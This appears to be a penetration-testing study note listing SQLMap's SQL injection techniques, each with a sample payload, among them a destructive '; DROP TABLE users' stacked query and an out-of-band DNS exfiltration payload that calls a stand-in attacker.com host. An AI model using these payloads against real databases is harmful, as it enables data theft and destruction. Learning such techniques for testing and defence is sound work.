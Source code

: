 ## **Supported SQL Injection Types (SQLMap)**

SQLMap supports **all known SQL injection (SQLi) types**, which can be specified using the `--technique=BEUSTQ` flag.

|**Technique Flag**|**Type**|
|---|---|
|**B**|Boolean-based Blind|
|**E**|Error-based|
|**U**|UNION Query-based|
|**S**|Stacked Queries|
|**T**|Time-based Blind|
|**Q**|Inline Queries|

---

### **Boolean-based Blind SQLi (B)**

- **Example:** `AND 1=1`
- Differentiates between **TRUE** and **FALSE** responses based on page content.
- Slow, but **very common** in real-world apps.
- SQLMap extracts 1 byte per request.

### **Error-based SQLi (E)**

- **Example:** `AND GTID_SUBSET(@@version,0)`
- Leverages DBMS error messages to extract data.
- **Fast**, but depends on error visibility.
- Supported DBMS: MySQL, MSSQL, Oracle, PostgreSQL, Sybase, DB2, Firebird, etc.

###  **UNION Query-based SQLi (U)**

- **Example:** `UNION ALL SELECT 1,@@version,3`
- Uses `UNION` to inject results into the original query output.
- **Fastest** type if output is reflected in the page.

###  **Stacked Queries (S)**

- **Example:** `; DROP TABLE users`
- Injects multiple queries separated by semicolons.
- Useful for **non-query** operations (e.g., INSERT, DELETE).
- Supported mainly by **MSSQL** and **PostgreSQL**.

###  **Time-based Blind SQLi (T)**

- **Example:** `AND 1=IF(2>1,SLEEP(5),0)`
- Differentiates between TRUE/FALSE using **response delay**.
- **Slow**, used when other methods fail or don’t affect response content.

### **Inline Queries (Q)**

- **Example:** `SELECT (SELECT @@version) FROM ...`
- Embeds a subquery inside the main query.
- Rare and dependent on specific app code patterns.

###  **Out-of-Band SQLi (OOB)**

- **Example:** `LOAD_FILE(CONCAT('\\\\',@@version,'.attacker.com\\README.txt'))`
- Uses **DNS exfiltration** to retrieve data externally.
- Effective when no visible output or time delays are usable.
- Requires attacker-controlled DNS server.